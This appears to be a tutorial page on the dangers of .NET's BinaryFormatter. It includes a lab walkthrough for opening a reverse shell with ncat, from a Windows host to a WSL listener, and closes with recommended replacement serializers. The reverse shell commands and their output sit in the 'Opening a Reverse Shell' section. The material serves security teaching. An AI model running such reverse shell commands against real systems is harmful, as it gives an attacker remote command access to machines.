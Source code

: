 # Binary Serialization

The [BinaryFormatter](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=net-8.0&?WT.mc_id=MVP_337682) is present in .NET Framework, .NET Core[^1], and .NET 5-8. Microsoft released an extensive statement about the dangers of using the BinaryFormatter here:

[BinaryFormatter Security Guide](https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide?WT.mc_id=MVP_337682)

[^1]: Binary Formatter was removed in .NET Core 1.0, but reappeared in .NET Core 1.1 and onward.

On Feb. 9th, 2024, Microsoft announced the BinaryFormatter is being removed from .NET 9:

[Announcement: BinaryFormatter is being removed in .NET 9](https://github.com/dotnet/runtime/issues/98245)

## 



## Opening a Reverse Shell

Reverse shells allow an attacker to open a command shell on a vulnerable machine from the attacker's machine.In this exercise, we will open a reverse shell from Ubuntu running on WSL (Windows Subsystem for Linux) to the Windows host.

This is a two stage process starting with launching a listener from the attacker. Then executing a command from the vulnerable target to open a port and establish access to the target's shell from the attacker.

This uses [`ncat`](https://nmap.org/ncat/guide/index.html), a versatile networking tool with extensive command line options for opening connections.  

### Preparing for the Attack

1. Open an Ubuntu shell from a Windows Command or Powershell terminal:

    ``` bat
    wsl
    ```

1. Get the ip address of the Ubuntu instance.

    ``` bash
    ifconfig
    ```  

    Note the IP address associated with the eth0 network interface. This should be `172.30.181.236`. This will be used later to open the reverse shell from the target.  

1. Start the listener on port 2222.

    ``` bash
    ncat -vnlp 2222
    ```

    The options used here are:

    | parameter | description |
    | --- | --- |
    | -v | Set verbosity level (can be used several times) |  
    | -n | Do not resolve hostnames via DNS |  
    | -l | Bind and listen for incoming connections |  
    | -p | Specify source port to use |

The listener is now started on the attacking machine and ready to receive a connection from the target.

### Validating the Connection

Before executing the attack, verify that it will work from the target machine by directly opening the reverse shell. A real-world attacker would not have this option. Since this is a test environment, it can be used to verify the attack before adding more complexity with ysoserial.net and a REST request.

1. Open a Windows Command or Powershell terminal and run:

    ``` bat
    ncat -e cmd.exe -nv 172.30.181.236 2222
    ```

    Use the IP address of the Ubuntu instance from the prior section if it's differs from the example. The `-e` parameter executes `cmd.exe` when the connection is established.

1. Return to the Ubuntu instance running the listener. Observe that a Windows command prompt is now available.

    ``` bat
    username@hostname:/mnt/c/Users/user$ nc -vnlp 2222
    Listening on 0.0.0.0 2222
    Connection received on 172.30.176.1 13502
    Microsoft Windows [Version 10.0.22631.3296]
    (c) Microsoft Corporation. All rights reserved.
    C:\Windows\System32>
    ```

1. Run a few commands to validate the connection.

    ``` bat
    dir
    whoami
    hostname
    ipconfig
    ```

## Mitigating the Vulnerability

Migrating from the BinaryFormatter is not straight-forward as there is no direct replacement. If the BinaryFormatter has been used to persist data in a product or service then a migration strategy is necessary. The [BinaryFormatter Security Guide](https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide?WT.mc_id=MVP_337682) recommends using:

- [XmlSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.xml.serialization.xmlserializer?view=net-8.0&WT.mc_id=MVP_337682) and [DataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.datacontractserializer?view=net-8.0&WT.mc_id=MVP_337682) to serialize object graphs into and from XML. Do not confuse [DataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.datacontractserializer?view=net-8.0&WT.mc_id=MVP_337682) with [NetDataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.netdatacontractserializer?view=netframework-4.8.1?WT.mc_id=MVP_337682).
- [BinaryReader](https://learn.microsoft.com/en-us/dotnet/api/system.io.binaryreader?view=net-8.0&WT.mc_id=MVP_337682) and [BinaryWriter](https://learn.microsoft.com/en-us/dotnet/api/system.io.binarywriter?view=net-8.0&WT.mc_id=MVP_337682) for XML and JSON.
- The [System.Text.Json](https://learn.microsoft.com/en-us/dotnet/api/system.text.json?view=net-8.0&WT.mc_id=MVP_337682) APIs to serialize object graphs into JSON.

Other alternatives include:

- [MessagePack](https://msgpack.org/) is a fast binary serializer.
- [ProtoBuf](https://protobuf.dev/getting-started/csharptutorial/). This is used by some Microsoft teams[^2].

[^2]: See Preparing for migration in [BinaryFormatter is being removed in .NET 9 #293](https://github.com/dotnet/announcements/issues/293)
